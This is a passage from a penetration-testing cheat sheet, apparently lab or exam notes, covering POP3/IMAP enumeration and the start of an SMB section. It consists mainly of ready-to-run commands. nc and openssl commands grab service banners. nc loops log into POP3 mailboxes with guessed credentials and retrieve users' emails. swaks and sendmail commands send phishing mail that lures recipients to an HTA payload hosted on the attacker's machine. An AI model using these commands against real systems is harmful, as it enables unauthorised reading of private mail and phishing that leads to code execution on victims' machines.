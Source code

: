 ### Port 110/143/995/993 - POP3/IMAP Enumeration

Banner grabbing

```bash
nc -nv $ip 110
```

```bash
nc -nv $ip 143
```

```bash
openssl s_client -connect $ip:995 -crlf -quiet
```

```bash
openssl s_client -connect $ip:993 -quiet
```

Enumerate further

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -p 110 $ip
```

Read emails

```bash
for user in alice bob; do ( echo USER ${user}; sleep 2s; echo PASS 123; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC $ip 110; done
```

Read email contents

```bash
for user in alice; do ( echo USER ${user}; sleep 2s; echo PASS 123; sleep 2s; echo LIST; sleep 2s; echo RETR 1; sleep 2s; echo RETR 2; sleep 2s; echo quit) | nc -nvC $ip 110; done
```

Send email

```bash
swaks --to $(cat emails | tr '\n' ',' | less) --from someone@whatever.com --header "Subject: whatever" --body "its totally safe at http://$kali_ip/details.hta" --server $target_ip
```

```bash
sendmail -f someone@whatever.com -t target@whatever.com -s $target_ip -u "Subject: whatever" -m "its totally safe at http://$kali_ip/details.hta"
```

###

---

### Port 139,445 - SMB Enumeration

Run wireshark to see the SMB version

```bash
smbclient -L $ip
```
